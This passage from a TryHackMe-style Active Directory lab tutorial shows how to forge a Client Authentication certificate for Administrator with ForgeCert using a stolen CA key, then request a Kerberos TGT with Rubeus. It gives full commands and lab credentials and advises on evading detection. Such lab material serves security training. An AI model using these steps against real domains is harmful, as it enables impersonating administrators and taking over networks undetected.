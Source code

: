 ### Generating our own Certificates

Now that we have the private key and root CA certificate, we can use the SpectorOps [ForgeCert](https://github.com/GhostPack/ForgeCert) tool to forge a Client Authenticate certificate for any user we want.  The ForgeCert and Rubeus binaries are stored in the C:\Tools\ directory  on THMWRK1. Let's use ForgeCert to generate a new certificate:

- **Terminal**      

```powershell
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>C:\Tools\ForgeCert\ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123 
```

Parameters explained:

- **CaCertPath - The path to our exported CA certificate.**
- **CaCertPassword** - The password used to encrypt the certificate. By default, Mimikatz assigns the password of `mimikatz`.
- **Subject** - The subject or common name of the certificate. This does not really  matter in the context of what we will be using the certificate for.
- **SubjectAltName** - This is the User Principal Name (UPN) of the account we want to  impersonate with this certificate. It has to be a legitimate user.
- **NewCertPath** - The path to where ForgeCert will store the generated certificate.
- **NewCertPassword** - Since the certificate will require the private key exported for  authentication purposes, we must set a new password used to encrypt it.

We can use Rubeus to request a TGT using the certificate to verify that the certificate is trusted. We will use the following command:

```powershell
C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate: /password:  /outfile: /domain:za.tryhackme.loc /dc:
```

Let's break down the parameters:

- **/user** - This specifies the user that we will impersonate and has to match the UPN for the certificate we generated
- **/enctype** -This specifies the encryption type for the ticket. Setting this is  important for evasion, since the default encryption algorithm is weak,  which would result in an overpass-the-hash alert
- **/certificate** - Path to the certificate we have generated
- **/password** - The password for our certificate file
- **/outfile** - The file where our TGT will be output to
- **/domain** - The FQDN of the domain we are currently attacking
- **/dc** - The IP of the domain controller which we are requesting the TGT from. Usually, it is best to select a DC that has a CA service running

Once we execute the command, we should receive our TGT:

- **Terminal**      

```powershell
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:10.200.x.101
          ______        _
         (_____ \      | |
          _____) )_   _| |__  _____ _   _  ___
         |  __  /| | | |  _ \| ___ | | | |/___)
         | |  \ \| |_| | |_) ) ____| |_| |___ |
         |_|   |_|____/|____/|_____)____/(___/
       
         v2.0.0
       
       [*] Action: Ask TGT
       
```